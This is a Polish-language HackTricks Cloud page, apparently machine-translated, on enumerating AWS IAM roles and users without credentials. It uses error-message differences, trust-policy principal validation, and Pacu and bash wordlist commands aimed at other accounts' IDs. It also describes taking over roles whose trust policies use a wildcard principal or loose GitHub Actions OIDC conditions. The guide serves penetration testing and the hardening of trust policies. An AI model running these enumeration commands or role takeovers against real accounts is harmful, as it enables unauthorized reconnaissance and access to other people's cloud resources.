 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Ucz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Wylicz role i nazwy użytkowników w koncie

### ~~Próba siłowa Assume Role~~

{% hint style="danger" %}
**Ta technika już nie działa**, ponieważ niezależnie od istnienia roli zawsze otrzymasz ten błąd:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Możesz **to przetestować uruchamiając**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Próba **przyjęcia roli bez wymaganych uprawnień** wywołuje komunikat błędu AWS. Na przykład, jeśli nieautoryzowany, AWS może zwrócić:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
To potwierdza istnienie roli, ale wskazuje, że jej polityka assume role nie zezwala na twoje założenie. Natomiast próba **założenia nieistniejącej roli prowadzi do innego błędu**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interesująco, ta metoda **rozróżniania między istniejącymi a nieistniejącymi rolami** jest stosowalna nawet w różnych kontach AWS. Dzięki poprawnemu identyfikatorowi konta AWS i docelowemu zestawowi słów, można wyliczyć role obecne w koncie bez żadnych ograniczeń.

Możesz użyć tego [skryptu do wyliczenia potencjalnych podmiotów](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) nadużywając tego problemu.

### Polityki zaufania: Przemoc wobec ról i użytkowników międzykontowych

Konfigurowanie lub aktualizowanie **polityki zaufania roli IAM polega na zdefiniowaniu, które zasoby lub usługi AWS mają prawo przejąć tę rolę** i uzyskać tymczasowe poświadczenia. Jeśli określony zasób w polityce **istnieje**, polityka zaufania zapisuje się **pomyślnie**. Jednak jeśli zasób **nie istnieje**, generowany jest **błąd**, wskazujący, że podano nieprawidłowego podmiotu.

{% hint style="warning" %}
Zauważ, że w tym zasobie możesz określić rolę lub użytkownika międzykontowego:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

To przykład polityki:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

To jest **błąd**, który znajdziesz, jeśli używasz **roli, która nie istnieje**. Jeśli rola **istnieje**, polisa zostanie **zapisana** bez żadnych błędów. (Błąd dotyczy aktualizacji, ale działa również podczas tworzenia)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Możesz zautomatyzować ten proces za pomocą [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Korzystając z [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Rola `admin` użyta w przykładzie to **roli w twoim koncie, którą ma być podmieniona** przez pacu, aby utworzyć wymagane przez nią zasady dla enumeracji

### Privesc

W przypadku źle skonfigurowanej roli, która pozwala każdemu na jej przejęcie:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## Trzecia federacja OIDC zewnętrznej strony

Wyobraź sobie, że udało ci się odczytać **przepływ pracy Github Actions**, który uzyskuje dostęp do **roli** w **AWS**.\
To zaufanie może dać dostęp do roli z następującą **polityką zaufania**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
To zaufanie polityki może być poprawne, ale **brak dodatkowych warunków** powinien skłonić do nieufności.\
Jest to dlatego, że poprzednią rolę może przejąć **KAŻDY z Github Actions**! Należy określić w warunkach także inne rzeczy, takie jak nazwa org., nazwa repozytorium, środowisko, gałąź...

Innym potencjalnym błędem konfiguracji jest **dodanie warunku** takiego jak:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Zauważ **znak wieloznaczny** (\*) przed **dwukropkiem** (:). Możesz utworzyć org, taką jak **org\_name1**, i **przyjąć rolę** z akcji Github.

## Odnośniki

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plan abonamentowy**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hackingu, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

